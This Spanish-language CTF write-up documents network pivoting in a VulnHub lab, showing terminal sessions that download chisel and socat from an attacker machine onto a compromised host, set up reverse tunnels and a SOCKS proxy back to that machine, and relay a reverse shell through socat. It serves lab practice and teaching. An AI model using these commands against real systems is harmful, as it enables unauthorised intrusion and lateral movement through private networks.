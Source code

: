 # PIVOTING
---
## CHISEL
"Chisel" es una herramienta de red desarrollada por Jpillora, es un tunel de proxy TCP, construido sobre la librería de Go "github.com/aws/aws-sdk-go/aws" y "golang.org/x/net/websocket". Es una herramienta que permite conectarse a una red privada a través de una conexión a Internet pública. `chisel client [server-host] [local-port]:[remote-port]`
Reducción del tamaño de chisel.
```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# du -hc chisel
7,8M    chisel
7,8M    total                                                                     
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# upx chisel 
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020
        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   8077312 ->   3107968   38.48%   linux/amd64   chisel 
Packed 1 file.                                                    
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# du -hc chisel   
3,0M    chisel
3,0M    total
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```                            
Nos movemos a la carpeta /dev/shm "optional" y desde ahi descargarmos chisel y dar permisos de ejecución.
```java
bash-5.0#  pwd
/dev/shm
bash-5.0# wget 192.168.200.147/chisel
--2023-01-20 10:19:16--  http://192.168.200.147/chisel
Connecting to 192.168.200.147:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3107968 (3.0M) [application/octet-stream]
Saving to: ‘chisel’
chisel                                         100%[====================================================================================================>]   2.96M  --.-KB/s    in 0.07s   
2023-01-20 10:19:16 (45.2 MB/s) - ‘chisel’ saved [3107968/3107968]
bash-5.0# 
bash-5.0# ls -la
-rw-rw-r--  1 root randy 3107968 Jan 30  2022 chisel
bash-5.0# chmod +x chisel 
bash-5.0# ls -la
-rwxrwxr-x  1 root randy 3107968 Jan 30  2022 chisel
bash-5.0# 
```
Ejecutar chisel desde el servidor, recordar que se debe tener permisos de ejecución.
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# ./chisel server --reverse -p 1234
2023/01/20 12:25:24 server: Reverse tunnelling enabled
2023/01/20 12:25:24 server: Fingerprint e/uTC7zOwR/RM4G/wjk+wrwIaSz0UQPLSrDsOZwfAi8=
2023/01/20 12:25:24 server: Listening on http://0.0.0.0:1234
```
Para establecer la conexion pivot desde el equipo `corrosion1`, se debe ejecutar chisel desde el equipo `corrosion2`, y establecer la conexion desde el equipo `192.168.210.129`; estableciendo la `ip:port` se peude hacer la reenvío del servicio publicado en el puerto 80.
```java
bash-5.0# ./chisel client 192.168.200.147:1234 R:80:192.168.210.129:80
2023/01/20 10:30:59 client: Connecting to ws://192.168.200.147:1234
2023/01/20 10:30:59 client: Connected (Latency 1.39229ms)
```
## PROXYCHAINS
Tambien se puede establecer la conexion para todas las comunicaciones desde el equipo corrosion1 mediante sock, redirigir todas las comunicaciones establecidas.
```java
bash-5.0# ./chisel client 192.168.200.147:1234 R:socks
2023/01/20 10:33:45 client: Connecting to ws://192.168.200.147:1234
2023/01/20 10:33:45 client: Connected (Latency 1.129892ms)
```
**Nota.-** Cuando se establece la comunicación mediante socks, se debe configurar la comunicacións `sokcs5` en el archivo `/etc/proxychains4.conf`.
```java
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4    127.0.0.1 9050
socks5  127.0.0.1 1080
```
## SOCAT
Considerando que no hay comunicación directa, debemos establecer un reenvío de comunicaciones desde el equipo corrosion1 al corrosion2 y de ahi al equipo atacante, para generar una shell reversa del equipo corrosion 1 al equipo atacante, utilizaremos [socats](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
--2023-01-20 19:47:35--  https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
Resolviendo github.com (github.com)... 140.82.112.4
Conectando con github.com (github.com)[140.82.112.4]:443... conectado.
Petición HTTP enviada, esperando respuesta... 302 Found
```
Una vez descargado se lo puede importar a la maquina corrosion 2 utilizando un servidor web y descagando con wget, cabe recalcar que se debe establecer permisos de ejecución.
```java
bash-5.0# wget http://192.168.200.147:8888/socat
--2023-01-20 17:57:24--  http://192.168.200.147:8888/socat
Connecting to 192.168.200.147:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: ‘socat’
socat   100%[====================================================================================================>] 366.38K  --.-KB/s    in 0.006s  
2023-01-20 17:57:24 (63.1 MB/s) - ‘socat’ saved [375176/375176]
bash-5.0# chmod +x socat 
```
Para establecer la comunicación mediante socats ponemos en escucha un puerto y toda la comnunicación que viene por ese puerto sea reenviado al equipo atacante.
```java
bash-5.0# ./socat TCP-LISTEN:4646,fork TCP:192.168.200.147:443
```